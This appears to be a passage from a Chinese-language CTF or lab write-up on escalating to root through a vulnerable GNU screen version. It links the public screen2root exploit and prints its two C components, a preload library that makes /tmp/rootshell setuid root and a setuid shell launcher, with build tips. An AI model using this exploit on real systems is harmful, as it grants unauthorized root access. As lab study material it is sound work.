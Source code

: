 當我直接執行的時候
他顯示要給他755 但我沒那個權限
![image](https://hackmd.io/_uploads/BJdZ8MmmA.png)

Then 我去查了screen 的版本
我發現他有個寫入的漏洞
好像是因為開發的時候不小心讓他可以寫入root檔
所以我找到了這個
https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh

我會把這兩個檔案傳過去然後讓他執行

```c=
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h> //chatgpt said that chmod needed it

__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

```c=
#include <stdio.h>
#include <unistd.h> //needed
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    char *args[] = {"/bin/sh", NULL}; //needed
    execvp("/bin/sh", args); //needed

}

```

我將它們上傳到機器上
![image](https://hackmd.io/_uploads/BkYQxmXQR.png)

我不確定他需不需要但我加了
![image](https://hackmd.io/_uploads/SkwM6QmQA.png)

痾結果是因為版本(我前面弄了很多版)
![image](https://hackmd.io/_uploads/ryDk0QQm0.png)

最後我查了論壇跟chatgpt
編譯的時候加上這個就好了 -static
